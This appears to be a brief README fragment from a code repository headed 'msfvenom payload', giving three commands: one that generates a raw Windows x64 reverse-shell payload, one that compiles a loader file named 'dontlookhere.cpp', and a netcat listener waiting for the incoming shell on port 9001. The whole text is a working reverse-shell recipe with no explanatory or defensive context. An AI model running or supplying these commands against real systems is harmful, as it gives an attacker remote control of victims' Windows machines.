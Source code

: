 ## msfvenom payload

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<an IP here> LPORT=9001 -f raw -o ./Desktop/reverse_shell.bin
```

```pwsh
.\compile.bat dontlookhere.cpp
```

```sh
rlwrap nc -lvnp 9001
```
